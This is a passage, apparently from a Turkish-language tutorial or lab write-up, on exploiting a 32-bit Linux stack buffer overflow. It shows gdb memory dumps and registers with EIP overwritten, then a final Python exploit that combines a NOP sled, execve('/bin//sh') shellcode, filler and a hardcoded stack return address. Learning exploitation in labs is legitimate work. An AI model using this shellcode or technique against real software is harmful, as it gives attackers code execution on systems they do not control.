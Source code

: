 ```bash
0xbffff618:	0xbffff628	0xb7eada75	0x41414141	0x41414141
0xbffff628:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff638:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff648:	0x41414141	0x42424242	0x42424242	0x42424242
0xbffff658:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff668:	0x43434343	0x44444444	0x00000000	0xbffff714
0xbffff678:	0xbffff71c	0xb7fe1848	0xbffff6d0	0xffffffff
0xbffff688:	0xb7ffeff4	0x08048232	0x00000001	0xbffff6d0
0xbffff698:	0xb7ff0626	0xb7fffab0	0xb7fe1b28	0xb7fd7ff4
0xbffff6a8:	0x00000000	0x00000000	0xbffff6e8	0x6b1fead5
0xbffff6b8:	0x414b7cc5	0x00000000	0x00000000	0x00000000
0xbffff6c8:	0x00000001	0x08048310	0x00000000	0xb7ff6210
0xbffff6d8:	0xb7eadb9b	0xb7ffeff4	0x00000001	0x08048310
0xbffff6e8:	0x00000000	0x08048331	0x080483c4	0x00000001
(gdb) si
Cannot access memory at address 0x43434347
(gdb) x/60x $esp-100
0xbffff60c:	0x080483d9	0xbffff620	0xb7ec6165	0xbffff628
0xbffff61c:	0xb7eada75	0x41414141	0x41414141	0x41414141
0xbffff62c:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff63c:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff64c:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff65c:	0x42424242	0x42424242	0x42424242	0x43434343
0xbffff66c:	0x44444444	0x00000000	0xbffff714	0xbffff71c
0xbffff67c:	0xb7fe1848	0xbffff6d0	0xffffffff	0xb7ffeff4
0xbffff68c:	0x08048232	0x00000001	0xbffff6d0	0xb7ff0626
0xbffff69c:	0xb7fffab0	0xb7fe1b28	0xb7fd7ff4	0x00000000
0xbffff6ac:	0x00000000	0xbffff6e8	0x6b1fead5	0x414b7cc5
0xbffff6bc:	0x00000000	0x00000000	0x00000000	0x00000001
0xbffff6cc:	0x08048310	0x00000000	0xb7ff6210	0xb7eadb9b
0xbffff6dc:	0xb7ffeff4	0x00000001	0x08048310	0x00000000
0xbffff6ec:	0x08048331	0x080483c4	0x00000001	0xbffff714
(gdb) i r
eax            0xbffff620	-1073744352
ecx            0xbffff620	-1073744352
edx            0xb7fd9334	-1208118476
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff670	0xbffff670
ebp            0x43434343	0x43434343
esi            0x0	0
edi            0x0	0
eip            0x44444444	0x44444444
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) q

```
Burada programı çalıştırmadan önce mainden çıkmadan breakpoint koyduk ki stack ne durumda bakabilelim. İnput olarak 'A'*44 + 'B'*28 + 'C'*4 + 'D'*4  verdik. Beklenen oldu ve return adresine DDDD yazıldı. Burada bffff638 adresine zıplayabilriz. Başka adres de seçebilirsiniz tabii :) Final kodumuz:
```python
nops = '\x90'*44
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
ebp = "B"*4
return_addr = "\x38\xf6\xff\xbf"

print nops + shellcode + ebp + return_addr
```